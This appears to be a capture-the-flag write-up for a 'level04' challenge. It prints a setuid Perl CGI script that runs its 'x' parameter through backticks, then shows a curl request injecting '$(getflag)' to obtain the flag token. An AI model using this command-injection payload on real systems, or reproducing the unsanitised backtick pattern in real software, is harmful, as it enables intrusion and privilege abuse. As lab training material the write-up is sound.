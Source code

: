## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2004(level04) gid=2004(level04) groups=2004(level04),100(users)
```

This shows that we are operating as the user `level04`.

---

## Step 2: Searching for Files

Next, let's check what files are in our `/home` directory:

```bash
$ ls -la
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl

$ file level04.pl
level04.pl: setuid setgid a /usr/bin/perl script, ASCII text executable
```
We find perl script owned by `flag04` with read and executable permissions for our user. 

---

## Step 3: Read the source code

```bash
$ bat level04.pl
```

```pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
This script uses CGI, which means that by connecting to the machine's IP address and specified port, we can interact with it. The script executes the first parameter received from a GET request with elevated privileges.

---

## Step 4: Exploiting the Binary to Get a  SubShell

To get a subshell, we can send a GET request to the script with the appropriate parameters. Here is how you can do it:
```bash
& curl 'machine_ip:4747?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
---

And there you have it, the token is `ne2searoevaevoem4ov4ar8ap`.
